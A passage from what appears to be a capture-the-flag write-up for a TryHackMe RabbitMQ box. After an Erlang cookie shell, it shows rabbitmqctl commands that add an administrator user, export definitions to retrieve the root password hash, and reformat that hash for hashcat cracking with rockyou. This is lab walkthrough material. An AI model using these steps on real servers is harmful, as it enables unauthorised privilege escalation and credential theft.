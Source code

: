 ![Erlang Cookie RCE](/images/THM-RabbitStore/erl_rce.png)

On our listener we now have a shell as `rabbitmq`.

![rabbitmq shell](/images/THM-RabbitStore/rabbitmq_shell.png)

Now that we are `rabbitmq` we can use `rabbitmqctl`. We first try `list_users` but it returns an error.

```
rabbitmqctl list_users
```

![failed rabbitmq list_users command](/images/THM-RabbitStore/list_users.png)

We correct the file permissions and run the command again.

```
chmod 400 /var/lib/rabbitmq/.erlang.cookie
```

![successful rabbitmq list_users command](/images/THM-RabbitStore/rabbitmq_list_users.png)

We get the message:

```
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.
```

## Privilege Escalation (shell as root)

We learn [here](https://www.rabbitmq.com/docs/definitions) that RabbitMQ stores information in `definitions`, these files can be exported as a JSON file. We can abuse our privileges to create a new user and do just that.

```
rabbitmqctl add_user kscorpio kscorpio 
rabbitmqctl set_permissions -p / kscorpio ".*" ".*" ".*"
rabbitmqctl set_user_tags kscorpio administrator
rabbitmqadmin export rabbit.definitions.json -u kscorpio -p kscorpio
```

![rabbitmq export definitions](/images/THM-RabbitStore/rabbitmq_privesc.png)

Inside the file we find the root password hash.

![root password hash in json file](/images/THM-RabbitStore/rabbitmq_pwd_hash.png)

To crack a RabbitMQ hash with a tool like hashcat we need to format it first. On [this Github issue page](https://github.com/QKaiser/cottontail/issues/27), we learn how to do it. 

```
echo "RABBITMQ_HASH" | base64 -d | xxd -pr -c128 | perl -pe 's/^(.{8})(.*)/$2:$1/' > hash.txt


hashcat -m 1420 --hex-salt hash.txt /usr/share/wordlists/rockyou.txt
```

